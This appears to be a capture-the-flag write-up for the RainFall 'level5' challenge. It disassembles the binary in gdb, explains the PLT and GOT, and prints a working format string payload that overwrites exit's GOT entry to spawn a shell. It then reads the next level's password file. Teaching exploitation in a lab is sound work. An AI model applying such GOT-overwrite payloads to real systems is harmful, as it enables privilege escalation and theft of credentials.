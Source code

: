 # Level5

```nasm
(gdb) disas main
Dump of assembler code for function main:                     // Calls n
   0x08048504 <+0>:     push   ebp
   0x08048505 <+1>:     mov    ebp,esp
   0x08048507 <+3>:     and    esp,0xfffffff0
   0x0804850a <+6>:     call   0x80484c2 <n>
   0x0804850f <+11>:    leave
   0x08048510 <+12>:    ret
End of assembler dump.
```

```nasm
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   ebp
   0x080484c3 <+1>:     mov    ebp,esp
   0x080484c5 <+3>:     sub    esp,0x218                     // Allocate a 0x218 (536) bytes stack
   0x080484cb <+9>:     mov    eax,ds:0x8049848              // Move into eax stdin
   0x080484d0 <+14>:    mov    DWORD PTR [esp+0x8],eax       // Put that as third argument
   0x080484d4 <+18>:    mov    DWORD PTR [esp+0x4],0x200     // Put 0x200 as second argument
   0x080484dc <+26>:    lea    eax,[ebp-0x208]               // Put a part of the stack in eax
   0x080484e2 <+32>:    mov    DWORD PTR [esp],eax           // Put that as first argument
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>         // Call fgets
   0x080484ea <+40>:    lea    eax,[ebp-0x208]               // Load into eax what is in the stack now
   0x080484f0 <+46>:    mov    DWORD PTR [esp],eax           // Put that back on top of the stack as first argument
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>        // Call printf
   0x080484f8 <+54>:    mov    DWORD PTR [esp],0x1           // Set 1 as exit code
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
```

```nasm
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x18                       // Allocate a 24 bytes stack
   0x080484aa <+6>:     mov    DWORD PTR [esp],0x80485f0      // Put as first argument "/bin/sh"
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>         // Call system
   0x080484b6 <+18>:    mov    DWORD PTR [esp],0x1            // Set 1 as exit code
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
```

We once again have a `fgets` followed by a `printf` but this time the `system` call is hidden in the function `o` that isn’t called anywhere. 

The goal is probably to use a format string exploit to launch the `o` function.

We cannot directly change the return address of main to make it point to the `o` function since there is a call to `exit` and no call to `ret` 

When the program calls `exit` or `printf` it does not directly jump to the function itself : it jumps to `printf@plt` or `exit@plt`, `plt` stands for “**Procedure Linkage Table**” :

> The Procedure Linkage Table (PLT) is a mechanism used in dynamically linked programs to facilitate function calls to external libraries, such
as libc. When a program makes a function call to a dynamically linked function (e.g., `printf`), the code in the PLT is responsible
for resolving the address of the function and transferring control to it. The PLT is part of the dynamic linking process, allowing programs to
call functions from shared libraries without knowing their addresses at compile time.
> 

In short, a small piece of code that makes the link between our program and the external function, wherever it is actually located.

The PLT then looks at the “**Global Offset Table**”, a table that contains the actual memory addresses of the functions we want to call.

> The Global Offset Table (GOT) is a table of pointers, typically within the executable or shared library, that holds the addresses of global variables or functions. When a program is executed, the linker resolves these addresses dynamically, allowing functions and variables to be accessed across different parts of the program or even across different modules.
> 

The key word here is dynamic. We cannot directly change the code and replace the call to `exit` with a call to `o` since it is in read only. We cannot change the PLT either, this code is also read-only and already processed. However, since the GOT is read dynamically, it means it can change at any time, and we can try to modify it, changing the supposed address of `exit` to the address of `o`.

In order to do that, we need to find out where does the actual address of `exit` is in the GOT.

```nasm
level5@RainFall:~$ gdb -q ./level5
Reading symbols from /home/user/level5/level5...(no debugging symbols found)...done.
(gdb) p exit
$1 = {<text variable, no debug info>} 0x80483d0 <exit@plt>
```

With `gdb` , we can find an address for `exit`, but that actually corresponds to the address of the PLT that makes the link with `exit`

We can then use the option `x` in `gdb`, that prints whatever is at a given address, with the format specifier `i` , that outputs it as a machine instruction (assembly) :

```nasm
(gdb) x/i 0x80483d0
   0x80483d0 <exit@plt>:        jmp    *0x8049838
```

This gives us the actual address of `exit`.

So now, just like in previous levels, we can use the `printf` format exploit to find out where we need to change memory :

```nasm
level5@RainFall:~$ echo -e "\x38\x98\x04\x08AAAA%x %x %x %x %x %x %x %x %x %x %x %x" | ./level5
8AAAA200 b7fd1ac0 b7ff37d0 8049838 41414141 25207825 78252078 20782520 25207825 78252078 20782520 25207825
```

Our payload appears in the 4th position, that’s the one we need to change to `o`'s address (`0x080484a4`, or in decimal : **134513828**). 

We also need to subtract the size of the address (4) so the number of characters we need to write is **134513824.**

Using our usual approach :

```bash
level5@RainFall:~$ (echo -e "\x38\x98\x04\x08%134513824c%4\$n"; cat) | ./level5
```

After a while we end up with a shell !

```bash
id
uid=2045(level5) gid=2045(level5) euid=2064(level6) egid=100(users) groups=2064(level6),100(users),2045(level5)
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```